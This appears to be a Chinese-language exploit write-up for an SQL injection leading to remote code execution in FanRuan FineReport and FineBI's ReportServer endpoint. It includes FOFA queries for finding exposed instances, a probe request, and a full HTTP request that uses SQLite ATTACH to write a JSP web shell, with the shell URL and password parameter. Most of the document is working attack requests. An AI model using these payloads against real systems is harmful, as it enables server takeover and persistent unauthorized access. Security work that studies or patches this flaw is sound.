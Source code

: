 # 帆软系统ReportServer存在SQL注入漏洞导致RCE

帆软工具软件存在RCE
访问URL:/webroot/decision/view/ReportServer?test=&n=，可执行GET参数n中的SQL语句，该漏洞是由于帆软自带的sqlite-jdbc-x.x.x.x.jar驱动导致。影响范围：FineReport和FineBI所有版本产品。HW爆出的day，没有复现

## fofa

```yaml
body="isSupportForgetPwd"
app="帆软-FineReport"
```

## poc

```java
GET /webroot/decision/view/ReportServer?test=&n=${9*9}
HTTP/1.1
Host: 192.168.174.152:8075
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0)Gecko/20100101 Firefox/128.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language:zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Referer:http://192.168.174.152:8075/webroot/decision/login?origin=1dc5fbd4-27eb-41b5-a43f-0623003685b4
Cookie: tenantId=default
```

![image-20240725213005972](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407252130095.png)

## 写文件

注：打过一次之后还要再打的话要改下数据库名称

```java
GET /webroot/decision/view/ReportServer?test=s&n=${__fr_locale__=sql('FRDemo',DECODE('%EF%BB%BFATTACH%20DATABASE%20%27..%2Fwebapps%2Fwebroot%2Faaa.jsp%27%20as%20gggggg%3B'),1,1)}${__fr_locale__=sql('FRDemo',DECODE('%EF%BB%BFCREATE%20TABLE%20gggggg.exp2%28data%20text%29%3B'),1,1)}${__fr_locale__=sql('FRDemo',DECODE('%EF%BB%BFINSERT%20INTO%20gggggg.exp2%28data%29%20VALUES%20%28x%27247b27272e676574436c61737328292e666f724e616d6528706172616d2e61292e6e6577496e7374616e636528292e676574456e67696e6542794e616d6528276a7327292e6576616c28706172616d2e62297d%27%29%3B'),1,1)} HTTP/1.1
Host: 
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive
```

`http://127.0.0.1:8080/webroot/aaa.jsp?a=javax.script.ScriptEngineManager` 密码 b 

![image-20240725213111459](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407252131536.png)



## 参考文章

- https://y4tacker.github.io/2024/07/23/year/2024/7/%E6%9F%90%E8%BD%AFReport%E9%AB%98%E7%89%88%E6%9C%AC%E4%B8%AD%E5%88%A9%E7%94%A8%E7%9A%84%E4%B8%80%E4%BA%9B%E7%BB%86%E8%8A%82/
- https://mp.weixin.qq.com/s/AliftiLevjz5HB9uL0DOqQ
